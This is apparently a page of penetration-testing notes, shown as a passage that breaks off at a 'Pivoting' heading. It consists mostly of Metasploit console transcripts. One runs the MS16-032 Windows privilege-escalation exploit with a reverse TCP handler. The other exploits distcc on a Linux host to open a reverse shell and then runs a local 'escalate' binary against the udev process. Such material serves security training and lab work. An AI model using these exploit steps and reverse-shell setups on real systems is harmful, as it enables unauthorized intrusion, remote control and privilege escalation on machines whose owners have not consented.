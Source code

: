 

**Using Local Exploit from Metasploit**  
  
```powershell
msf exploit(windows/local/ms16_032_secondary_logon_handle_privesc)> set SESSION 2  
SESSION => 2  
msf exploit(windows/local/ms16_032_secondary_logon_handle_privesc)> set LHOST 192.168.86.57  
LHOST => 192.168.86.57  
msf exploit(windows/local/ms16_032_secondary_logon_handle_privesc)> set LPORT 4445  
LPORT => 4445  
msf exploit(windows/local/ms16_032_secondary_logon_handle_privesc)> exploit  
  
[*] Started reverse TCP handler on 192.168.86.57:4445  
[!] Executing 32-bit payload on 64-bit ARCH, using SYSWOW64 powershell  
[*] Writing payload file, C:\ManageEngine\DesktopCentral_Server\bin\ROayyKQ.txt…  
[*] Compressing script contents…  
[+] Compressed size: 3621  
[*] Executing exploit script…
```


**Linux Privilege Escalation**  
  

```bash
Msf6> use exploit/unix/misc/distcc_exec  
msf exploit(unix/misc/distcc_exec)> set RHOST 192.168.86.66  
RHOST => 192.168.86.66  
msf exploit(unix/misc/distcc_exec)> exploit  
  
[*] Started reverse TCP double handler on 192.168.86.57:4444  
[*] Accepted the first client connection…  
[*] Accepted the second client connection…  
[*] Command: echo 9LVs5a2CaAEk29pj;  
[*] Writing to socket A  
[*] Writing to socket B  
[*] Reading from sockets…  
[*] Reading from socket B  
[*] B: "9LVs5a2CaAEk29pj\r\n"  
[*] Matching…  
[*] A is input…  
[*] Command shell session 1 opened (192.168.86.57:4444 -> 192.168.86.66:47936) at 2023-01-09 18:28:22 -0600  
  
whoami  
daemon  
cd /tmp  
ps auxww | grep udev  
root      2663  0.0  0.1   2216   700 ?        S<s  Apr24   0:00 /sbin/udevd --daemon  
daemon    6364  0.0  0.1   1784   532 ?        RN   11:54   0:00 grep udev  
./escalate 2662
```


## Pivoting
You may find after compromising a system that it has multiple interfaces. Because we can't just upload a bunch of tools to the compromised system, we need
